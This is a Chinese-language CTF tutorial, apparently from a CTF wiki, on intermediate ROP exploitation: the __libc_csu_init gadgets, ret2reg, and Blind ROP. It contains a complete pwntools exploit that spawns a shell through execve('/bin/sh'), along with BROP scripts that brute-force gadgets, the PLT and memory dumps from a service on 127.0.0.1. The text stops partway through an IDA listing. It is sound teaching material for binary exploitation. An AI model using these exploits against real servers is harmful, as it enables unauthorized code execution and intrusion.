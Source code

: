 

中级ROP
=======

中级ROP主要是使用了一些比较巧妙的Gadgets。

ret2__libc_scu_init
^^^^^^^^^^^^^^^^^^^^

原理
----

在64位程序中，函数的前6个参数是通过寄存器传递的，但是大多数时候，我们很难找到每一个寄存器对应的gadgets。
这时候，我们可以利用x64下的__libc_scu_init中的gadgets。这个函数是用来对libc进行初始化操作的，而一般的程序都会调用libc函数，所以这个函数一定会存在。我们先来看一下这个函数(当然，不同版本的这个函数有一定的区别)

.. code:: asm

    .text:00000000004005C0 ; void _libc_csu_init(void)
    .text:00000000004005C0                 public __libc_csu_init
    .text:00000000004005C0 __libc_csu_init proc near               ; DATA XREF: _start+16o
    .text:00000000004005C0                 push    r15
    .text:00000000004005C2                 push    r14
    .text:00000000004005C4                 mov     r15d, edi
    .text:00000000004005C7                 push    r13
    .text:00000000004005C9                 push    r12
    .text:00000000004005CB                 lea     r12, __frame_dummy_init_array_entry
    .text:00000000004005D2                 push    rbp
    .text:00000000004005D3                 lea     rbp, __do_global_dtors_aux_fini_array_entry
    .text:00000000004005DA                 push    rbx
    .text:00000000004005DB                 mov     r14, rsi
    .text:00000000004005DE                 mov     r13, rdx
    .text:00000000004005E1                 sub     rbp, r12
    .text:00000000004005E4                 sub     rsp, 8
    .text:00000000004005E8                 sar     rbp, 3
    .text:00000000004005EC                 call    _init_proc
    .text:00000000004005F1                 test    rbp, rbp
    .text:00000000004005F4                 jz      short loc_400616
    .text:00000000004005F6                 xor     ebx, ebx
    .text:00000000004005F8                 nop     dword ptr [rax+rax+00000000h]
    .text:0000000000400600
    .text:0000000000400600 loc_400600:                             ; CODE XREF: __libc_csu_init+54j
    .text:0000000000400600                 mov     rdx, r13
    .text:0000000000400603                 mov     rsi, r14
    .text:0000000000400606                 mov     edi, r15d
    .text:0000000000400609                 call    qword ptr [r12+rbx*8]
    .text:000000000040060D                 add     rbx, 1
    .text:0000000000400611                 cmp     rbx, rbp
    .text:0000000000400614                 jnz     short loc_400600
    .text:0000000000400616
    .text:0000000000400616 loc_400616:                             ; CODE XREF: __libc_csu_init+34j
    .text:0000000000400616                 add     rsp, 8
    .text:000000000040061A                 pop     rbx
    .text:000000000040061B                 pop     rbp
    .text:000000000040061C                 pop     r12
    .text:000000000040061E                 pop     r13
    .text:0000000000400620                 pop     r14
    .text:0000000000400622                 pop     r15
    .text:0000000000400624                 retn
    .text:0000000000400624 __libc_csu_init endp

这里我们可以利用以下几点

-  从0x000000000040061A一直到结尾，我们可以利用栈溢出构造栈上数据来控制rbx,rbp,r12,r13,r14,r15寄存器的数据。
-  从0x0000000000400600到0x0000000000400609，我们可以将r13赋给rdx,将r14赋给rsi，将r15d赋给edi（需要注意的是，虽然这里赋给的是edi， **但其实此时rdi的高32位寄存器值为0（自行调试）** ，所以其实我们可以控制rdi寄存器的值，只不过只能控制低32位），而这三个寄存器，也是x64函数调用中传递的前三个寄存器。此外，如果我们可以合理地控制r12与rbx，那么我们就可以调用我们想要调用的函数。比如说我们可以控制rbx为0，r12为存储我们想要调用的函数的地址。
-  从0x000000000040060D到0x0000000000400614，我们可以控制rbx与rbp的之间的关系为rbx+1=rbp，这样我们就不会执行loc_400600，进而可以继续执行下面的汇编程序。这里我们可以简单的设置rbx=0，rbp=1。

示例
----

这里我们以蒸米的一步一步学ROP之linux_x64篇中level5为例进行介绍。首先检查程序的安全保护

.. code:: shell

    ➜  ret2__libc_csu_init git:(iromise) ✗ checksec level5   
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)

程序为64位，开启了堆栈不可执行保护。

其次，寻找程序的漏洞，可以看出程序中有一个简单的栈溢出

.. code:: c

    ssize_t vulnerable_function()
    {
      char buf; // [sp+0h] [bp-80h]@1

      return read(0, &buf, 0x200uLL);
    }

简单浏览下程序，发现程序中既没有system函数地址，也没有/bin/sh字符串，所以两者都需要我们自己去构造了。

**注：这里我尝试在我本机使用system函数来获取shell失败了，应该是环境变量的问题，所以这里使用的是execve来获取shell。**

基本利用思路如下

-  利用栈溢出执行libc_csu_gadgets获取write函数地址，并使得程序重新执行main函数
-  根据libcsearcher获取对应libc版本以及execve函数地址
-  再次利用栈溢出执行libc_csu_gadgets向bss段写入execve地址以及'/bin/sh’地址，并使得程序重新执行main函数。
-  再次利用栈溢出执行libc_csu_gadgets执行execve('/bin/sh')获取shell。

exp如下

.. code:: python

    from pwn import *
    from LibcSearcher import LibcSearcher

    #context.log_level = 'debug'

    level5 = ELF('./level5')
    sh = process('./level5')

    write_got = level5.got['write']
    read_got = level5.got['read']
    main_addr = level5.symbols['main']
    bss_base = level5.bss()
    csu_front_addr = 0x0000000000400600
    csu_end_addr = 0x000000000040061A
    fakeebp = 'b' * 8


    def csu(rbx, rbp, r12, r13, r14, r15, last):
        # pop rbx,rbp,r12,r13,r14,r15
        # rbx should be 0,
        # rbp should be 1,enable not to jump
        # r12 should be the function we want to call
        # rdi=edi=r15d
        # rsi=r14
        # rdx=r13
        payload = 'a' * 0x80 + fakeebp
        payload += p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(
            r13) + p64(r14) + p64(r15)
        payload += p64(csu_front_addr)
        payload += 'a' * 0x38
        payload += p64(last)
        sh.send(payload)
        sleep(1)


    sh.recvuntil('Hello, World\n')
    # RDI, RSI, RDX, RCX, R8, R9, more on the stack
    # write(1,write_got,8)
    csu(0, 1, write_got, 8, write_got, 1, main_addr)

    write_addr = u64(sh.recv(8))
    libc = LibcSearcher('write', write_addr)
    libc_base = write_addr - libc.dump('write')
    execve_addr = libc_base + libc.dump('execve')
    log.success('execve_addr ' + hex(execve_addr))
    #gdb.attach(sh)

    # read(0,bss_base,16)
    # read execve_addr and /bin/sh\x00
    sh.recvuntil('Hello, World\n')
    csu(0, 1, read_got, 16, bss_base, 0, main_addr)
    sh.send(p64(execve_addr) + '/bin/sh\x00')

    sh.recvuntil('Hello, World\n')
    # execve(bss_base+8)
    csu(0, 1, bss_base, 0, 0, bss_base + 8, main_addr)
    sh.interactive()

思考
----

改进
~~~~

在上面的时候，我们直接利用了这个通用gadgets，其输入的字节长度为128。但是，并不是所有的程序漏洞都可以让我们输入这么长的字节。那么当允许我们输入的字节数较少的时候，我们该怎么有什么办法呢？下面给出了几个方法

改进1-提前控制rbx与rbp
&&&&&&&&&&&&&&&&&&&&&&

可以看到在我们之前的利用中，我们利用这两个寄存器的值的主要是为了满足cmp的条件，并进行跳转。如果我们可以提前控制这两个数值，那么我们就可以减少16字节，即我们所需的字节数只需要112。

改进2-多次利用
&&&&&&&&&&&&&&&&&&&&

其实，改进1也算是一种多次利用。我们可以看到我们的gadgets是分为两部分的，那么我们其实可以进行两次调用来达到的目的，以便于减少一次gadgets所需要的字节数。但这里的多次利用需要更加严格的条件

-  漏洞可以被多次触发
-  在两次触发之间，程序尚未修改r12-r15寄存器，这是因为要两次调用。

**当然，有时候我们也会遇到一次性可以读入大量的字节，但是不允许漏洞再次利用的情况，这时候就需要我们一次性将所有的字节布置好，之后慢慢利用。**

gadget
~~~~~~

其实，除了上述这个gadgets，gcc默认还会编译进去一些其它的函数

.. code:: text

    _init
    _start
    call_gmon_start
    deregister_tm_clones
    register_tm_clones
    __do_global_dtors_aux
    frame_dummy
    __libc_csu_init
    __libc_csu_fini
    _fini

我们也可以尝试利用其中的一些代码来进行执行。此外，由于PC本身只是将程序的执行地址处的数据传递给CPU，而CPU则只是对传递来的数据进行解码，只要解码成功，就会进行执行。所以我们可以将源程序中一些地址进行偏移从而来获取我们所想要的指令，只要可以确保程序不崩溃。

需要一说的是，在上面的libc_csu_init中我们主要利用了以下寄存器

-  利用尾部代码控制了rbx，rbp，r12，r13，r14，r15。
-  利用中间部分的代码控制了rdx，rsi，edi。

而其实libc_csu_init的尾部通过偏移是可以控制其他寄存器的。其中，0x000000000040061A是正常的起始地址， **可以看到我们在0x000000000040061f处可以控制rbp寄存器，在0x0000000000400621处可以控制rsi寄存器。** 而如果想要深入地了解这一部分的内容，就要对汇编指令中的每个字段进行更加透彻地理解。如下。

.. code:: asm

    gef➤  x/5i 0x000000000040061A
       0x40061a <__libc_csu_init+90>:   pop    rbx
       0x40061b <__libc_csu_init+91>:   pop    rbp
       0x40061c <__libc_csu_init+92>:   pop    r12
       0x40061e <__libc_csu_init+94>:   pop    r13
       0x400620 <__libc_csu_init+96>:   pop    r14
    gef➤  x/5i 0x000000000040061b
       0x40061b <__libc_csu_init+91>:   pop    rbp
       0x40061c <__libc_csu_init+92>:   pop    r12
       0x40061e <__libc_csu_init+94>:   pop    r13
       0x400620 <__libc_csu_init+96>:   pop    r14
       0x400622 <__libc_csu_init+98>:   pop    r15
    gef➤  x/5i 0x000000000040061A+3
       0x40061d <__libc_csu_init+93>:   pop    rsp
       0x40061e <__libc_csu_init+94>:   pop    r13
       0x400620 <__libc_csu_init+96>:   pop    r14
       0x400622 <__libc_csu_init+98>:   pop    r15
       0x400624 <__libc_csu_init+100>:  ret 
    gef➤  x/5i 0x000000000040061e
       0x40061e <__libc_csu_init+94>:   pop    r13
       0x400620 <__libc_csu_init+96>:   pop    r14
       0x400622 <__libc_csu_init+98>:   pop    r15
       0x400624 <__libc_csu_init+100>:  ret    
       0x400625:    nop
    gef➤  x/5i 0x000000000040061f
       0x40061f <__libc_csu_init+95>:   pop    rbp
       0x400620 <__libc_csu_init+96>:   pop    r14
       0x400622 <__libc_csu_init+98>:   pop    r15
       0x400624 <__libc_csu_init+100>:  ret    
       0x400625:    nop
    gef➤  x/5i 0x0000000000400620
       0x400620 <__libc_csu_init+96>:   pop    r14
       0x400622 <__libc_csu_init+98>:   pop    r15
       0x400624 <__libc_csu_init+100>:  ret    
       0x400625:    nop
       0x400626:    nop    WORD PTR cs:[rax+rax*1+0x0]
    gef➤  x/5i 0x0000000000400621
       0x400621 <__libc_csu_init+97>:   pop    rsi
       0x400622 <__libc_csu_init+98>:   pop    r15
       0x400624 <__libc_csu_init+100>:  ret    
       0x400625:    nop
    gef➤  x/5i 0x000000000040061A+9
       0x400623 <__libc_csu_init+99>:   pop    rdi
       0x400624 <__libc_csu_init+100>:  ret    
       0x400625:    nop
       0x400626:    nop    WORD PTR cs:[rax+rax*1+0x0]
       0x400630 <__libc_csu_fini>:  repz ret 

题目
----

-  2016 XDCTF pwn100
-  2016 华山杯 SU_PWN

参考阅读

-  http://wooyun.jozxing.cc/static/drops/papers-7551.html
-  http://wooyun.jozxing.cc/static/drops/binary-10638.html

ret2reg
^^^^^^^^^^^^

原理
----

1. 查看溢出函返回时哪个寄存值指向溢出缓冲区空间
2. 然后反编译二进制，查找call reg 或者jmp reg指令，将
   EIP设置为该指令地址
3. reg所指向的空间上注入Shellcode(需要确保该空间是可以执行的，但通常都是栈上的)

BROP
^^^^^^^

基本介绍
--------

BROP(Blind ROP)于2014年由Standford的Andrea
Bittau提出，其相关研究成果发表在Oakland 2014，其论文题目是 **Hacking Blind** ，下面是作者对应的paper和slides,以及作者相应的介绍

-  `paper <http://www.scs.stanford.edu/brop/bittau-brop.pdf>`_
-  `slide <http://www.scs.stanford.edu/brop/bittau-brop-slides.pdf>`_

BROP是没有对应应用程序的源代码或者二进制文件下，对程序进行攻击，劫持程序的执行流。

攻击条件
--------

1. 源程序必须存在栈溢出漏洞，以便于攻击者可以控制程序流程。
2. 服务器端的进程在崩溃之后会重新启动，并且重新启动的进程的地址与先前的地址一样（这也就是说即使程序有ASLR保护，但是其只是在程序最初启动的时候有效果）。目前nginx,
   MySQL, Apache, OpenSSH等服务器应用都是符合这种特性的。

攻击原理
--------

目前，大部分应用都会开启ASLR、NX、Canary保护。这里我们分别讲解在BROP中如何绕过这些保护，以及如何进行攻击。

基本思路
~~~~~~~~

在BROP中，基本的遵循的思路如下

-  判断栈溢出字符串长度
-  暴力枚举
-  Stack Reading
-  获取栈上的数据来泄露canaries，以及ebp和返回地址。
-  Bind ROP
-  找到足够多的gadgets来控制输出函数的参数，并且对其进行调用，比如说常见的write函数以及puts函数。
-  Build the exploit
-  利用输出函数来dump出程序以便于来找到更多的gadgets，从而可以写出最后的exploit。

栈溢出长度
~~~~~~~~~~

直接从1暴力枚举即可，直到发现程序崩溃。

Stack Reading
~~~~~~~~~~~~~

如下所示，这是目前经典的栈布局

::

    buffer|canary|saved fame pointer|saved returned address

要向得到canary以及之后的变量，我们需要解决第一个问题，如何得到overflow的长度，这个可以通过不断尝试来获取。

其次，关于canary以及后面的变量，所采用的的方法一致，这里我们以canary为例。

canary本身可以通过爆破来获取，但是如果只是愚蠢地枚举所有的数值的话，显然是低效的。

需要注意的是，攻击条件2表明了程序本身并不会因为crash有变化，所以每次的canary等值都是一样的。所以我们可以按照字节进行爆破。正如论文中所展示的，每个字节最多有256种可能，所以在32位的情况下，我们最多需要爆破1024次，64位最多爆破2048次。

.. figure:: /pwn/stackoverflow/figure/stack_reading.png
   :alt: 

Blind ROP
~~~~~~~~~

基本思路
&&&&&&&&&&&&&&&&&&&&

最朴素的执行write函数的方法就是构造系统调用。

.. code:: asm

    pop rdi; ret # socket
    pop rsi; ret # buffer
    pop rdx; ret # length
    pop rax; ret # write syscall number
    syscall

但通常来说，这样的方法都是比较困难的，因为想要找到一个syscall的地址基本不可能。。。我们可以通过转换为找write的方式来获取。

BROP gadgets
''''''''''''

首先，在libc_csu_init的结尾一长串的gadgets，我们可以通过偏移来获取write函数调用的前两个参数。正如文中所展示的

.. figure:: /pwn/stackoverflow/figure/brop_gadget.png
   :alt: 

find a call write
'''''''''''''''''

我们可以通过plt表来获取write的地址。

control rdx
'''''''''''

需要注意的是，rdx只是我们用来输出程序字节长度的变量，只要不为0即可。一般来说程序中的rdx经常性会不是零。但是为了更好地控制程序输出，我们仍然尽量可以控制这个值。但是，在程序

.. code:: asm

    pop rdx; ret

这样的指令几乎没有。那么，我们该如何控制rdx的数值呢？这里需要说明执行strcmp的时候，rdx会被设置为将要被比较的字符串的长度，所以我们可以找到strcmp函数，从而来控制rdx。

那么接下来的问题，我们就可以分为两项

-  寻找gadgets
-  寻找PLT表
-  write入口
-  strcmp入口

寻找gadgets
&&&&&&&&&&&&&&&&&&&&

首先，我们来想办法寻找gadgets。此时，由于尚未知道程序具体长什么样，所以我们只能通过简单的控制程序的返回地址为自己设置的值，从而而来猜测相应的gadgets。而当我们控制程序的返回地址时，一般有以下几种情况

-  程序直接崩溃
-  程序运行一段时间后崩溃
-  程序一直运行而并不崩溃

为了寻找合理的gadgets，我们可以分为以下两步

寻找stop gadgets
''''''''''''''''

所谓 ``stop gadget`` **一般** 指的是这样一段代码：当程序的执行这段代码时，程序会进入无限循环，这样使得攻击者能够一直保持连接状态。

    其实stop
    gadget也并不一定得是上面的样子，其根本的目的在于告诉攻击者，所测试的返回地址是一个gadgets。

之所以要寻找stop
gadgets，是因为当我们猜到某个gadgtes后，如果我们仅仅是将其布置在栈上，由于执行完这个gadget之后，程序还会跳到栈上的下一个地址。如果该地址是非法地址，那么程序就会crash。这样的话，在攻击者看来程序只是单纯的crash了。因此，攻击者就会认为在这个过程中并没有执行到任何的 ``useful gadget`` ，从而放弃它。例子如下图

.. figure:: /pwn/stackoverflow/figure/stop_gadget.png
   :alt: 

但是，如果我们布置了 ``stop gadget`` ，那么对于我们所要尝试的每一个地址，如果它是一个gadget的话，那么程序不会崩溃。接下来，就是去想办法识别这些gadget。

识别 gadgets
''''''''''''

那么，我们该如何识别这些gadgets呢？我们可以通过栈布局以及程序的行为来进行识别。为了更加容易地进行介绍，这里定义栈上的三种地址

-  **Probe**
-  探针，也就是我们想要探测的代码地址。一般来说，都是64位程序，可以直接从0x400000尝试，如果不成功，有可能程序开启了PIE保护，再不济，就可能是程序是32位了。。这里我还没有特别想明白，怎么可以快速确定远程的位数。
-  **Stop**
-  不会使得程序崩溃的stop gadget的地址。
-  **Trap**
-  可以导致程序崩溃的地址

我们可以通过在栈上摆放不同顺序的 **Stop** 与 **Trap** 从而来识别出正在执行的指令。因为执行Stop意味着程序不会崩溃，执行Trap意味着程序会立即崩溃。这里给出几个例子

-  probe,stop,traps(traps,traps,...)
-  我们通过程序崩溃与否( **如果程序在probe处直接崩溃怎么判断** )可以找到不会对栈进行pop操作的gadget，如

   -  ret
   -  xor eax,eax; ret

-  probe,trap,stop,traps
-  我们可以通过这样的布局找到只是弹出一个栈变量的gadget。如

   -  pop rax; ret
   -  pop rdi; ret

-  probe, trap, trap, trap, trap, trap, trap, stop, traps
-  我们可以通过这样的布局来找到弹出6个栈变量的gadget，也就是与brop
   gadget相似的gadget。 **这里感觉原文是有问题的，比如说如果遇到了只是pop一个栈变量的地址，其实也是不会崩溃的，，** 这里一般来说会遇到两处比较有意思的地方

   -  plt处不会崩，，
   -  _start处不会崩，相当于程序重新执行。

之所以要在每个布局的后面都放上trap，是为了能够识别出，当我们的probe处对应的地址执行的指令跳过了stop，程序立马崩溃的行为。

但是，即使是这样，我们仍然难以识别出正在执行的gadget到底是在对哪个寄存器进行操作。

但是，需要注意的是向BROP这样的一下子弹出6个寄存器的gadgets，程序中并不经常出现。所以，如果我们发现了这样的gadgets，那么，有很大的可能性，这个gadgets就是brop
gadgets。此外，这个gadgets通过错位还可以生成

-  pop rsp

等这样的gadgets，可以使得程序崩溃也可以作为识别这个gadgets的标志。

**此外，根据我们之前学的ret2libc_csu_init可以知道该地址减去0x1a就会得到其上一个gadgets。可以供我们调用其它函数。**

**需要注意的是probe可能是一个stop
gadget，我们得去检查一下，怎么检查呢？我们只需要让后面所有的内容变为trap地址即可。因为如果是stop
gadget的话，程序会正常执行，否则就会崩溃。看起来似乎很有意思**

寻找PLT
&&&&&&&&&&

如下图所示，程序的plt表具有比较规整的结构，每一个plt表项都是16字节。而且，在每一个表项的6字节偏移处，是该表项对应的函数的解析路径，即程序最初执行该函数的时候，会执行该路径对函数的got地址进行解析。

.. figure:: /pwn/stackoverflow/figure/brop_plt.png
   :alt: 

此外，对于大多数plt调用来说，一般都不容易崩溃，即使是使用了比较奇怪的参数。所以说，如果我们发现了一系列的长度为16的没有使得程序崩溃的代码段，那么我们有一定的理由相信我们遇到了plt表。除此之外，我们还可以通过前后偏移6字节，来判断我们是处于plt表项中间还是说处于开头。

控制rdx
&&&&&&&&&&&&&&

当我们找到plt表之后，下面，我们就该想办法来控制rdx的数值了，那么该如何确认strcmp的位置呢？需要提前说的是，并不是所有的程序都会调用strcmp函数，所以在没有调用strcmp函数的情况下，我们就得利用其它方式来控制rdx的值了。这里给出程序中使用strcmp函数的情况。

之前，我们已经找到了brop的gadgets，所以我们可以控制函数的前两个参数了。与此同时，我们定义以下两种地址

-  readable，可读的地址。
-  bad, 非法地址，不可访问，比如说0x0。

那么我们如果控制传递的参数为这两种地址的组合，会出现以下四种情况

-  strcmp(bad,bad)
-  strcmp(bad,readable)
-  strcmp(readable,bad)
-  strcmp(readable,readable)

只有最后一种格式，程序才会正常执行。

**注** ：在没有PIE保护的时候，64位程序的ELF文件的0x400000处有7个非零字节。

那么我们该如何具体地去做呢？有一种比较直接的方法就是从头到尾依次扫描每个plt表项，但是这个却比较麻烦。我们可以选择如下的一种方法

-  利用plt表项的慢路径
-  并且利用下一个表项的慢路径的地址来覆盖返回地址

这样，我们就不用来回控制相应的变量了。

当然，我们也可能碰巧找到 strncmp 或者 strcasecmp 函数，它们具有和 strcmp 一样的效果。

寻找输出函数
&&&&&&&&&&&&&&&&

寻找输出函数既可以寻找write，也可以寻找puts。一般现先找puts函数。不过这里为了介绍方便，先介绍如何寻找write。

寻找write\@plt
'''''''''''''''

当我们可以控制write函数的三个参数的时候，我们就可以再次遍历所有的plt表，根据write函数将会输出内容来找到对应的函数。需要注意的是，这里有个比较麻烦的地方在于我们需要找到文件描述符的值。一般情况下，我们有两种方法来找到这个值

-  使用rop chain，同时使得每个rop对应的文件描述符不一样
-  同时打开多个连接，并且我们使用相对较高的数值来试一试。

需要注意的是

-  linux默认情况下，一个进程最多只能打开1024个文件描述符。
-  posix标准每次申请的文件描述符数值总是当前最小可用数值。

当然，我们也可以选择寻找puts函数。

寻找puts\@plt
''''''''''''''

寻找puts函数(这里我们寻找的是
plt)，我们自然需要控制rdi参数，在上面，我们已经找到了brop
gadget。那么，我们根据brop
gadget偏移9可以得到相应的gadgets（由ret2libc\_csu\_init中后续可得）。同时在程序还没有开启PIE保护的情况下，0x400000处为ELF文件的头部，其内容为 \x7fELF。所以我们可以根据这个来进行判断。一般来说，其payload如下

::

    payload = 'A'*length +p64(pop_rdi_ret)+p64(0x400000)+p64(addr)+p64(stop_gadget)

攻击总结
~~~~~~~~

此时，攻击者已经可以控制输出函数了，那么攻击者就可以输出.text段更多的内容以便于来找到更多合适gadgets。同时，攻击者还可以找到一些其它函数，如dup2或者execve函数。一般来说，攻击者此时会去做下事情

-  将socket输出重定向到输入输出
-  寻找“/bin/sh”的地址。一般来说，最好是找到一块可写的内存，利用write函数将这个字符串写到相应的地址。
-  执行execve获取shell，获取execve不一定在plt表中，此时攻击者就需要想办法执行系统调用了。

例子
----

这里我们以HCTF2016的出题人失踪了为例，相关的部署文件都放在了example文件夹下的对应目录下。基本思路如下

确定栈溢出长度
~~~~~~~~~~~~~~

.. code:: python

    def getbufferflow_length():
        i = 1
        while 1:
            try:
                sh = remote('127.0.0.1', 9999)
                sh.recvuntil('WelCome my friend,Do you know password?\n')
                sh.sendline(i * 'a')
                output = sh.recv()
                sh.close()
                if not output.startswith('No password'):
                    return i - 1
                else:
                    i += 1
            except EOFError:
                sh.close()
                return i - 1

根据上面，我们可以确定，栈溢出的长度为72。同时，根据回显信息可以发现程序并没有开启canary保护，否则，就会有相应的报错内容。所以我们不需要执行stack
reading。

寻找 stop gadgets
~~~~~~~~~~~~~~~~~~

寻找过程如下

.. code:: python

    def get_stop_addr(length):
        addr = 0x400000
        while 1:
            try:
                sh = remote('127.0.0.1', 9999)
                sh.recvuntil('password?\n')
                payload = 'a' * length + p64(addr)
                sh.sendline(payload)
                sh.recv()
                sh.close()
                print 'one success addr: 0x%x' % (addr)
                return addr
            except Exception:
                addr += 1
                sh.close()

这里我们直接尝试64位程序没有开启PIE的情况，因为一般是这个样子的，，，如果开启了，，那就按照开启了的方法做，，结果发现了不少，，我选择了一个貌似返回到源程序中的地址

.. code:: text

    one success stop gadget addr: 0x4006b6

识别brop gadgets
~~~~~~~~~~~~~~~~~

下面，我们根据上面介绍的原理来得到对应的brop
gadgets地址。构造如下，get_brop_gadget是为了得到可能的brop
gadget，后面的check_brop_gadget是为了检查。

.. code:: python

    def get_brop_gadget(length, stop_gadget, addr):
        try:
            sh = remote('127.0.0.1', 9999)
            sh.recvuntil('password?\n')
            payload = 'a' * length + p64(addr) + p64(0) * 6 + p64(
                stop_gadget) + p64(0) * 10
            sh.sendline(payload)
            content = sh.recv()
            sh.close()
            print content
            # stop gadget returns memory
            if not content.startswith('WelCome'):
                return False
            return True
        except Exception:
            sh.close()
            return False


    def check_brop_gadget(length, addr):
        try:
            sh = remote('127.0.0.1', 9999)
            sh.recvuntil('password?\n')
            payload = 'a' * length + p64(addr) + 'a' * 8 * 10
            sh.sendline(payload)
            content = sh.recv()
            sh.close()
            return False
        except Exception:
            sh.close()
            return True


    #length = getbufferflow_length()
    length = 72
    #get_stop_addr(length)
    stop_gadget = 0x4006b6
    addr = 0x400740
    while 1:
        print hex(addr)
        if get_brop_gadget(length, stop_gadget, addr):
            print 'possible brop gadget: 0x%x' % addr
            if check_brop_gadget(length, addr):
                print 'success brop gadget: 0x%x' % addr
                break
        addr += 1

这样，我们基本得到了brop的gadgets地址0x4007ba

确定puts\@plt地址
~~~~~~~~~~~~~~~~~~

根据上面，所说我们可以构造如下payload来进行获取

.. code:: text

    payload = 'A'*72 +p64(pop_rdi_ret)+p64(0x400000)+p64(addr)+p64(stop_gadget)

具体函数如下

.. code:: python

    def get_puts_addr(length, rdi_ret, stop_gadget):
        addr = 0x400000
        while 1:
            print hex(addr)
            sh = remote('127.0.0.1', 9999)
            sh.recvuntil('password?\n')
            payload = 'A' * length + p64(rdi_ret) + p64(0x400000) + p64(
                addr) + p64(stop_gadget)
            sh.sendline(payload)
            try:
                content = sh.recv()
                if content.startswith('\x7fELF'):
                    print 'find puts@plt addr: 0x%x' % addr
                    return addr
                sh.close()
                addr += 1
            except Exception:
                sh.close()
                addr += 1

最后根据plt的结构，选择0x400560作为puts@plt

泄露puts\@got地址
~~~~~~~~~~~~~~~~~~

在我们可以调用puts函数后，我们可以泄露puts函数的地址，进而获取libc版本，从而获取相关的system函数地址与/bin/sh地址，从而获取shell。我们从0x400000开始泄露0x1000个字节，这已经足够包含程序的plt部分了。代码如下

.. code:: python

    def leak(length, rdi_ret, puts_plt, leak_addr, stop_gadget):
        sh = remote('127.0.0.1', 9999)
        payload = 'a' * length + p64(rdi_ret) + p64(leak_addr) + p64(
            puts_plt) + p64(stop_gadget)
        sh.recvuntil('password?\n')
        sh.sendline(payload)
        try:
            data = sh.recv()
            sh.close()
            try:
                data = data[:data.index("\nWelCome")]
            except Exception:
                data = data
            if data == "":
                data = '\x00'
            return data
        except Exception:
            sh.close()
            return None


    #length = getbufferflow_length()
    length = 72
    #stop_gadget = get_stop_addr(length)
    stop_gadget = 0x4006b6
    #brop_gadget = find_brop_gadget(length,stop_gadget)
    brop_gadget = 0x4007ba
    rdi_ret = brop_gadget + 9
    #puts_plt = get_puts_plt(length, rdi_ret, stop_gadget)
    puts_plt = 0x400560
    addr = 0x400000
    result = ""
    while addr < 0x401000:
        print hex(addr)
        data = leak(length, rdi_ret, puts_plt, addr, stop_gadget)
        if data is None:
            continue
        else:
            result += data
        addr += len(data)
    with open('code', 'wb') as f:
        f.write(result)

最后，我们将泄露的内容写到文件里。需要注意的是如果泄露出来的是“”,那说明我们遇到了 '\x00' ，因为puts是输出字符串，字符串是以 '\x00' 为终止符的。之后利用ida打开binary模式，首先在edit->segments->rebase
program 将程序的基地址改为0x400000，然后找到偏移0x560处，如下

.. code:: text

    seg000:0000000000400560                 db 0FFh
    seg000:0000000000400561                 db  25h ; %
    seg000:0000000000400562                 db 0B2h ; 
    seg000:0000000000400563                 db  0Ah
